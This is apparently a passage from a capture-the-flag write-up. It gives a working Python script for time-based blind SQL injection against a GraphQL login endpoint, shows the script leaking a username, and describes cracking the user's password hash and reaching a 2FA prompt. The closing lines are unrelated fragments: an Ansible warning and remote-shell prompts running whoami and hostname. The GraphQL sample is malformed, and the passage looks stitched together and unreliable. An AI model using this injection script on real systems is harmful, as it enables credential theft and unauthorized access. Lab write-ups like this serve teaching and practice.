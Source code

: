 ```python
import requests
import time
import os
#printable="a0123456789bcdefghijklmnopqrstuvwxyz"
printable="0123456789abcdefABCDEFGHIJKLMNOPQRSTUVWXYZ"
res=""
while True:
    for char in printable:
        time.sleep(0.6)
        session = requests.session()
        burp0_url = "http://10.129.255.194:80/graphql"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
        burp0_json={"query": "mutation {\n    LoginUser(username: \"-12' or (select sleep(2) from dual where (SELECT username from users ) like '"+res+char+"%')-- \", password: \"a\"){\n        message,\n        token    \n}\n}"}
        #print(burp0_json)
        start = time.perf_counter()
        session.post(burp0_url, headers=burp0_headers, json=burp0_json)
        request_time = time.perf_counter() - start
        #print("[Char: ]"+char+" "+str(request_time))
        if request_time > 2:
            res+=char
            print("result: "+res)
            break
```

We run the script and we’re able to retrieve the username!

```bash
hcue@pjsk:/tmp » python3 sql.py
result: J
result: Jo
result: Joh
result: John
```

Just for the sake of the length of the writeup, we can use similar script to retrieve the MD5 of John user and crack it with [Crackstation](https://crackstation.net/) to get `iamcool`.

Logging in with user `John:iamcool` Works and we’re greeted with 2FA.

![A screenshot of OTP verification form. OTP will be sent through email, and will expire in 2 minutes](/static/images/stack-the-flags-2022/otp-web.png)

I tried to provide a random OTP to check the request and it’s a graphql query as well:

```graphql
{
 "query":{\n    verify2FA{otp: \"1234\"}{\n     message,\n   token \n}\n}"
}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname